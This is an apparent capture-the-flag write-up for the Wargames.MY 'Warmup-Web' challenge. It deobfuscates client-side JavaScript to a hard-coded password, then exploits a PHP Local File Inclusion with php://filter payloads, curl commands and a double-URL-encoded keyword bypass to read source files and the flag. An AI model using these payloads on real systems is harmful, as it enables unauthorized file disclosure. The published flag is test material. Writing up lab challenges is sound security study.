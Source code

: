# Warmup-Web
> Let’s warm up! http://warmup.wargames.my

![warmup1](https://github.com/user-attachments/assets/1962390a-0106-4f48-9f6e-55698b581488)

## Challenge Overview

We were provided with a website that checks for a password. Upon inspecting the website, it was apparent that the password validation was handled on the client-side within a file named `script.min.js`, which was obfuscated.

<details>
<summary>Source code </summary>

```py
(function (_0xaa640e, _0x279ce4) {
  var _0x6ee5d0 = _0xaa640e();
  while (true) {
    try {
      var _0x2293f4 = parseInt(_0x3f9b(388, 0x3fd)) / 1 * (parseInt(_0x3f9b(386, 0x188)) / 2) + parseInt(_0x3f9b(347, 0x3bd)) / 3 * (parseInt(_0x3f9b(397, 0x425)) / 4) + parseInt(_0x3f9b(368, 0x1c0)) / 5 * (parseInt(_0x3f9b(422, 0x42c)) / 6) + parseInt(_0x3f9b(374, 0x1c4)) / 7 + parseInt(_0x3f9b(416, 0x3ff)) / 8 * (-parseInt(_0x3f9b(365, 0x16e)) / 9) + parseInt(_0x3f9b(411, 0x1c9)) / 10 * (-parseInt(_0x3f9b(384, 0x1bc)) / 11) + -parseInt(_0x3f9b(420, 0x1fb)) / 12;
      if (_0x2293f4 === _0x279ce4) {
        break;
      } else {
        _0x6ee5d0.push(_0x6ee5d0.shift());
      }
    } catch (_0x294895) {
      _0x6ee5d0.push(_0x6ee5d0.shift());
    }
  }
})(_0x5b64, 642410);
function _0x5b64() {
  var _0x111e3e = ['kcGOlISPkYKRkq', 'y2XPy2S', 'CxvLCNLtzwXLyW', 'y29UC29Szq', 'CMv0DxjUicHMDq', 'BMn0Aw9UkcKG', 'mwu4zgvJoc5WAa', 'zgTpzvK', 'B3jKx2LZx3nVxW', 'y29UC3rYDwn0BW', 'txnSwe8', 'zg11teq', 'D2fYBG', 'zhH6EM8', 'm1bftuThuG', 'v0DyBui', 'sNjctvm', 'DgHLBG', 'Dg9Y', 'vhLpB08', 'otm0otGYzJK4na', 'ChjVDg90ExbL', 'Aw5WDxq', 'E30Uy29UC3rYDq', 'BNbWB2S', 'DevJsxG', 'yMLUza', 'zxjYB3i', 'Dgv4Da', 'ChjLDMvUDerLzG', 'v2PVyxe', 'mxWZFdr8mNWW', 'mJu1mZG4nwLIExP2Cq', 'C3rLBMvY', 'Bwfytxu', 'mtu5odu4me1hBNbrtG', 'r1bfuxG', 'r1b5tKK', 'D29Yza', 'CM4GDgHPCYiPka', 'whryrNm', 'mtC2ntreCMXZtwu', 'zMLYzq', 'CgHW', 'Ag1XCge', 'u0Lts3K', 't29WCY4UlG', 'C2vHCMnO', 'D2vHA19Px2nHBG', 'r29VzcbQB2iH', 'yxvSDa', 'mZy0mw9Zu014yW', 'y0TlEfO', 'mJuXnZy2zfbTv0vU', 'ruDPEeu', 'mM5zBND3yG', 'DgfIBgu', 'tMrqB0y', 'tw9Zvhi', 'C3bSAxq', 'DgHPC19WyxnZDW', 'Cd94pwzSywDFzG', 'DhjHy2u', 'D1PjwgC', 'ndm2mtq2meDXqwjMtW', 's2zsuLO', 'tLLRtKy', 'm3W0Fdb8nxWYFa', 'q3vmCLG', 'Ag16CeK', 'DMfSDwu', 'C3vJy2vZCW', 'B3jFD2fYBxvWlG', 'l2fWAs80yweYmG', 'mv9ZzwmH', 'CLrjBuG', 'D3jVBMCGCgfZCW', 'vM5RrgO', 'mZu4otbAvfPPBwG', 'ruPOzMC', 'Dg9tDhjPBMC', 'B3Lrr1O', 'x2nYywnRx2LUxW', 'oez1Bgvnuq', 'B0vosvK', 'AKvns2i', 'yxbWBhK', 'mJi3nJaWngnAC2XLsa', 'y3rVCIGICMv0Dq', 'mtHqA01ttLi', 'yJHHmdqZogi3ma', 'AxbrEvO'];
  _0x5b64 = function () {
    return _0x111e3e;
  };
  return _0x5b64();
}
var _0x31b52a = function () {
  var _0x1c26b9 = true;
  return function (_0x35b67b, _0x1f8cee) {
    var _0x3e2013 = _0x1c26b9 ? function () {
      if (_0x1f8cee) {
        var _0x470f07 = _0x1f8cee.apply(_0x35b67b, arguments);
        _0x1f8cee = null;
        return _0x470f07;
      }
    } : function () {};
    _0x1c26b9 = false;
    return _0x3e2013;
  };
}();
var _0x87d8f9 = _0x31b52a(this, function () {
  return _0x87d8f9.toString().search("(((.+)+)+)+$").toString().constructor(_0x87d8f9).search("(((.+)+)+)+$");
});
_0x87d8f9();
var _0x4ddd43 = function () {
  var _0x44f874 = true;
  return function (_0x5a8fac, _0x59bbc2) {
    var _0xab1b95 = _0x44f874 ? function () {
      if (_0x59bbc2) {
        var _0x3d47af = _0x59bbc2.apply(_0x5a8fac, arguments);
        _0x59bbc2 = null;
        return _0x3d47af;
      }
    } : function () {};
    _0x44f874 = false;
    return _0xab1b95;
  };
}();
function _0x149f13(_0x4f6340, _0x34750d, _0x5f53d7, _0x3a026d) {
  return _0x3f9b(_0x3a026d + 0x4f, _0x5f53d7);
}
var _0x4a3f13 = _0x4ddd43(this, function () {
  var _0x11fa3c;
  try {
    var _0x42f49b = Function("return (function() {}.constructor(\"return this\")( ));");
    _0x11fa3c = _0x42f49b();
  } catch (_0x264e09) {
    _0x11fa3c = window;
  }
  var _0x14a4bd = _0x11fa3c.console = _0x11fa3c.console || {};
  var _0x41e6a7 = ['log', "warn", 'info', "error", 'exception', "table", "trace"];
  for (var _0x2797c0 = 0; _0x2797c0 < _0x41e6a7.length; _0x2797c0++) {
    var _0xf8cfd6 = 0;
    var _0x39e12b = _0x4ddd43.constructor.prototype.bind(_0x4ddd43);
    var _0x75605d = _0x41e6a7[_0x2797c0];
    var _0x50b23c = _0x14a4bd[_0x75605d] || _0x39e12b;
    _0x39e12b.__proto__ = _0x4ddd43.bind(_0x4ddd43);
    _0x39e12b.toString = _0x50b23c.toString.bind(_0x50b23c);
    _0x14a4bd[_0x75605d] = _0x39e12b;
  }
});
_0x4a3f13();
function _0x10abf6(_0x167ffc, _0x3e8f95, _0x13e45b, _0x11dbee) {
  return _0x3f9b(_0x3e8f95 - 0x17, _0x167ffc);
}
function _0x3f9b(_0x56cda9) {
  var _0x5e0796 = _0x5b64();
  _0x3f9b = function (_0x159172, _0x327444) {
    _0x159172 = _0x159172 - 334;
    var _0x209866 = _0x5e0796[_0x159172];
    if (_0x3f9b.sYkZqe === undefined) {
      var _0x271090 = function (_0x32812a) {
        var _0x169b0e = '';
        var _0x3fff78 = '';
        var _0x208479 = _0x169b0e + _0x271090;
        var _0x2497e4 = 0;
        var _0x37b169;
        var _0x45ea43;
        for (var _0x3fea6e = 0; _0x45ea43 = _0x32812a.charAt(_0x3fea6e++); ~_0x45ea43 && (_0x37b169 = _0x2497e4 % 4 ? _0x37b169 * 64 + _0x45ea43 : _0x45ea43, _0x2497e4++ % 4) ? _0x169b0e += _0x208479.charCodeAt(_0x3fea6e + 10) - 10 !== 0 ? String.fromCharCode(255 & _0x37b169 >> (-2 * _0x2497e4 & 6)) : _0x2497e4 : 0) {
          _0x45ea43 = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789+/='.indexOf(_0x45ea43);
        }
        var _0x2a72a1 = 0;
        for (var _0x6480c9 = _0x169b0e.length; _0x2a72a1 < _0x6480c9; _0x2a72a1++) {
          _0x3fff78 += '%' + ('00' + _0x169b0e.charCodeAt(_0x2a72a1).toString(16)).slice(-2);
        }
        return decodeURIComponent(_0x3fff78);
      };
      _0x3f9b.eukupw = _0x271090;
      arguments;
      _0x3f9b.sYkZqe = true;
    }
    var _0x115e85 = _0x5e0796[0];
    var _0x4582af = _0x159172 + _0x115e85;
    var _0x3cbbc1 = arguments[_0x4582af];
    if (!_0x3cbbc1) {
      var _0x16ba8c = function (_0x265973) {
        this.gGpmmd = _0x265973;
        this.hCFOdd = [1, 0, 0];
        this.Owsqpw = function () {
          return 'newState';
        };
        this.uhiLyk = "\\w+ *\\(\\) *{\\w+ *";
        this.gfRlUj = "['|\"].+['|\"];? *}";
      };
      _0x16ba8c.prototype.oVuBNR = function () {
        var _0x455c13 = new RegExp(this.uhiLyk + this.gfRlUj);
        var _0x36be15 = _0x455c13.test(this.Owsqpw.toString()) ? --this.hCFOdd[1] : --this.hCFOdd[0];
        return this.fiTstY(_0x36be15);
      };
      _0x16ba8c.prototype.fiTstY = function (_0x6a65c3) {
        if (!Boolean(~_0x6a65c3)) {
          return _0x6a65c3;
        }
        return this.VMqRnh(this.gGpmmd);
      };
      _0x16ba8c.prototype.VMqRnh = function (_0x59d91e) {
        var _0x15254d = 0;
        for (var _0x2b7ae2 = this.hCFOdd.length; _0x15254d < _0x2b7ae2; _0x15254d++) {
          this.hCFOdd.push(Math.round(Math.random()));
          _0x2b7ae2 = this.hCFOdd.length;
        }
        return _0x59d91e(this.hCFOdd[0]);
      };
      new _0x16ba8c(_0x3f9b).oVuBNR();
      _0x209866 = _0x3f9b.eukupw(_0x209866);
      arguments[_0x4582af] = _0x209866;
    } else {
      _0x209866 = _0x3cbbc1;
    }
    return _0x209866;
  };
  return _0x3f9b(arguments, _0x56cda9);
}
document.querySelector('button').addEventListener("click", _0x3ac921 => {
  _0x3ac921.preventDefault();
  if (document.querySelector("input").value === "this_password_is_so_weak_i_can_crack_in_1_sec!") {
    fetch("/api/4aa22934982f984b8a0438b701e8dec8.php?x=flag_for_warmup.php").then(_0x5c12f5 => _0x5c12f5.text()).then(_0x509e6e => Swal.fire({
      'title': "Good job!",
      'html': _0x509e6e,
      'icon': "success"
    }));
  } else {
    Swal.fire({
      'title': "Oops...",
      'text': "wrong password",
      'icon': "error"
    });
  }
});
```

</details>

1. **Code Deobfuscation**

After the deobfuscation, the script easily found the password: `this_password_is_so_weak_i_can_crack_in_1_sec!`. Entering this password redirected us to another page and triggered an HTTP request to the endpoint `/api/4aa22934982f984b8a0438b701e8dec8.php?x=flag_for_warmup.php`.
```py
document.querySelector('button').addEventListener("click", _0x3ac921 => {
  _0x3ac921.preventDefault();
  if (document.querySelector("input").value === "this_password_is_so_weak_i_can_crack_in_1_sec!") {
    fetch("/api/4aa22934982f984b8a0438b701e8dec8.php?x=flag_for_warmup.php").then(_0x5c12f5 => _0x5c12f5.text()).then(_0x509e6e => Swal.fire({
      'title': "Good job!",
      'html': _0x509e6e,
      'icon': "success"
    }));
  } else {
    Swal.fire({
      'title': "Oops...",
      'text': "wrong password",
      'icon': "error"
    });
  }
```
Deobfuscator Links
- https://obf-io.deobfuscate.io/

  
2. **Discovering LFI Vulnerability:**

Initially, I thought the flag would be immediately retrievable from this endpoint. However, the flag wasn’t visible in the response or the source code, leaving me puzzled.

![image](https://github.com/user-attachments/assets/39538351-057c-4a23-a84b-5e79268e5013)
![warmup3](https://github.com/user-attachments/assets/860e6b9e-af14-4242-91f3-6716ea41c1e1)

Further investigation revealed a Local File Inclusion (LFI) vulnerability in the `x` parameter of the endpoint. This allowed us to include files like `/etc/passwd` to view their contents.

However, certain keywords like `data`, `proc`, and `convert` were blocked, making it challenging to exploit the vulnerability directly.

## Solution

### Using PHP Wrappers:

Despite the blocks, I found that the `php://` wrapper was allowed. This led to the realization that the flag might be hidden in a PHP comment within the `flag_for_warmup.php` file. The problem was that including a PHP file through LFI typically executes the file, preventing us from seeing any comments or the flag.

1. **php://filter/zlib.deflate**

The solution involved using the `php://filter` wrapper to avoid executing the PHP code. Specifically, the `php://filter/zlib.deflate/resource=file.php` filter compresses the file contents, which can then be decompressed later to reveal the hidden information.

**Exploiting the Vulnerability:**

To retrieve the flag, I executed the following steps:

1. **Compress the File:**
```bash
curl -X GET 'http://warmup.wargames.my/api/4aa22934982f984b8a0438b701e8dec8.php?x=php://filter/zlib.deflate/resource=flag_for_warmup.php' -H 'Host: warmup.wargames.my' -o flagfile
```

2. **Decompress and View the Flag:**
```php
<?php
//index.php
readfile('php://filter/zlib.inflate/resource=flagfile');
?>
```

3. **Run a Local Server:**
   I hosted a quick local server with the PHP script:
```bash
php -S 0.0.0.0:5557
```

  4. **Retrieve the Flag:**
     Finally, I accessed `localhost:5557` in the browser, which displayed the flag.

Also can use this command to skip the local server setup.

```bash
curl -s -k -o - https://warmup.wargames.my/api/4aa22934982f984b8a0438b701e8dec8.php?x=php://filter/zlib.deflate/resource=flag_for_warmup.php | php -r 'echo gzinflate(file_get_contents("php://stdin"));'
```

2. **URL Encode**

To bypass the filter in this challenge, we first encoded the word `"convert"` using URL encoding, resulting in `%2563%256f%256e%2576%2565%2572%2574`. We then crafted our payload as `x=php://filter/%2563%256f%256e%2576%2565%2572%2574.base64-encode/resource=flag_for_warmup.php`. By using this encoded payload, we were able to successfully circumvent the filter and access the desired content.
## Flag
```
wgmy{1ca200caa85d3a8dcec7d660e7361f79}
```
